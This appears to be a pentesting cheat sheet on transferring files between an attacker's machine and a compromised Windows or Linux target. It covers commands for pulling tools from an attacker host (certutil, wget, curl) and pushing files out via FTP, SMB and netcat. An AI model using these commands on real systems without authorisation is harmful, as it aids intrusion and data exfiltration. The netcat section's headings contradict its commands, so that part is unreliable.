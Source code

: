 # Transfert file between target and attacking machines

## HTTP

### From attack machine to Target

#### Attacking machine

- In kali we can use python `python -m http.server 80`

#### Target machine

- On a win target machine you can access it directly with the browser: `http://IP-ATTACKING-MACHINE/FILE-TO-GET` or you can use certutil.exe `certutil.exe -urlcache http://IP-ATTACKING-MACHINE/FILE-TO-GET file-to-get`
- In a linux target machine you can use `wget http://IP-ATTACKING-MACHINE/FILE-TO-GET` or curl `curl -o FILE-TO-GET http://IP-ATTACKING-MACHINE/FILE-TO-GET`

## FTP

### From attack machine to target

#### Attacking machine

- `python3 -m pyftpdlib -p 21`

####  Target machine

- `ftp IP-OF-ATTACKING-MACHINE` we can then use `get filename` to get the file

### From Target to attack

#### Attacking machine

- `python3 -m pyftpdlib -p 21`

####  Target machine

- `ftp IP-OF-ATTACKING-MACHINE` we can then use `put filename` to send the file

## SMB

### From Target to attack machine

#### Attacking machine

- In kali we can use Impacket `python3 smbserver.py -smb2support sharename /path/folder`

#### Target machine

- In a win victim machine we just need to copy the file to the attacking machine: `copy  FiletoDownload \\IP-OFF-ATTACKING-MACHINE\SHARENAME`

## Metasploit

### From attack machine to Target

There is an upload and download feature

## SSH (creds needed)

### From attack machine to Target

- In your kali or any linux `scp FILE-TO-SEND user@ip:/path/to/folder`

## Netcat

### From Target to attack machine

#### Target machine

- `nc -lvp PORT-NUMBER > FILE-TO-SEND

#### Attacking machine

- `nc VICTIM-IP PORT-NUMBER -w 3 < FILE` note: -w is for the time out in seconds


